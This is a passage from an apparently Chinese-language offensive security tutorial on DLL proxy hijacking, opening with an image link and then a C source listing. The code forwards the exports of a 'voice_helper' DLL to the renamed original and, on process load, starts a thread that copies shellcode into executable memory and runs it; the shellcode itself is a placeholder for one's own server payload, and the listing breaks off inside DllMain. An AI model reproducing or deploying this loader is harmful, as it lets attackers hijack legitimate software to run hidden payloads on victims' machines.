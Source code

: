 [![](assets/1698894665-d4378fe5f43809eab99f2d5eaae08616.png)](https://storage.tttang.com/media/attachment/2022/01/16/ab7e2b65-c67e-406e-b740-10b09829a1f6.png)

然后创建 DLL 项目将代码复制进去如下：

```bash
#include "pch.h"
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
#include <Windows.h>

#include <stdlib.h>
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////




#pragma comment(linker, "/EXPORT:RegisterHookListener=voice_helperOrg.RegisterHookListener,@1")
#pragma comment(linker, "/EXPORT:RemoveAllListeners=voice_helperOrg.RemoveAllListeners,@2")
#pragma comment(linker, "/EXPORT:StartHelperService=voice_helperOrg.StartHelperService,@3")
#pragma comment(linker, "/EXPORT:StopHelperService=voice_helperOrg.StopHelperService,@4")
HANDLE hThread = NULL;
typedef void(__stdcall* JMP_SHELLCODE)();
/* length: 894 bytes */
unsigned char shellcode[] = "\x39\x00\x51\x09\xbf\x6d 自己服务器的 shellcode..";


DWORD WINAPI jmp_shellcode(LPVOID pPara)
{
    LPVOID lpBase = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(lpBase, shellcode, sizeof(shellcode));
    JMP_SHELLCODE jmp_shellcode = (JMP_SHELLCODE)lpBase;
    jmp_shellcode();
    return 0;
}

////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////



////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
        hThread = CreateThread(NULL, 0, jmp_shellcode, 0, 0, 0);

    }
    else if (dwReason == DLL_PROCESS_DETACH)
```